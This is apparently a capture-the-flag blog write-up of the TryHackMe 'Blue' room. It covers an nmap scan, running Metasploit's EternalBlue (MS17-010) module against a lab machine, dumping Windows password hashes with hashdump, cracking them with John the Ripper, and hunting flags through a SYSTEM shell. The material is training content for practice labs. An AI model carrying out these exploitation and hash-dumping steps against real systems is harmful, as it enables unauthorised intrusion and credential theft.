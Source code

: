 ```yaml
---
layout : post 
title: TryHackMe Blue
author: Edwards
image: /assets/img/Blue/blue.png
date: 2020-10-02
categories: [CTF, TryHackMe]
tags: [Windows, Easy]
math: true
--- 
```


## Through this box we are going to learn :

- Scan a machine with nmap.
- Exploit a machine with metasploit.
- Crack password with John The Ripper.
- Use powershell to find flags inside a windows machine.

### Section 1 : Recon

ip=10.10.77.120

Let's start by scanning the machine with nmap
```bash
edwards@kali:~$ nmap -T4 -p- -A 10.10.77.120
```
- -T4 : For the speed of the scan, not recommended on real pentest situation.
- -p- : Scan all ports on the machine, so you don't miss anything.
- -A : Enable all kind of scanning, like OS detection.

![image](/assets/img/Blue/nmap.png)

We can see that we have the OS version and the ports that are open.
Let's go on google to find an exploit for this Windows version. 

I found on Rapid 7 an exploit that we can use on metasploit.

### Section 2 : Exploit

Start metasploit to use the exploit that we found.
```bash
msfconsole
```

Use the command search + the name of the exploit
```bash 
search ms17-010
```

Next step is to say "use + full exploit path" 
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Display the options with "options" (clever ;) )
If you are not familiar with metasploit, you can see that their are a bunch of options.
Some of them are required but they are already set. 
You just have to enter your target ip with the "set RHOSTS <ip>" 

![image](/assets/img/Blue/rhost.png)
_The options display should look like this after_

Use the command "run" to launch the exploit.
_Or "exploit" if you are a cool kid_

### Section 3 : Cracking hash

We are in ! 

Our next task is to crack the hash password.

We can dump the password with "hashdump".
```bash
hashdump
```
![image](/assets/img/Blue/hashdump.png)

Let's write the output in a file called password.txt.

Then I used a tool called "john the ripper", an open source and very efficient password cracker.

![image](/assets/img/Blue/john.png)
_TryHackMe says that the rockyou.txt wordlist is enough so I used that._

### Section 4 : Find flags
Let's head back to metasploit and find flags hidden inside the machine. 

I used the command "shell" to interact with the file directory manager.
```bash
shell
```
![image](/assets/img/Blue/shell.png)

Always check who you are in the system with the "whoami" command.
```bash
whoami
```

![image](/assets/img/Blue/whoami.png)

We are authority system, look how lucky we got !
_The Authority system users are user user with more powerful privileges than admin user_

Go back to meterpreter  with "ctrl+z". 
Use the command <search -f flag*> to find the location of the 3 flags.

![image](/assets/img/Blue/location.png)

Go back inside with "shell" command and look for them.
- "cd" to move through the file system.
- "more" <file_name> to open the file.
- "dir" to know where you are.

![image](/assets/img/Blue/flags.png)


Congrats ! You finished the box ! 
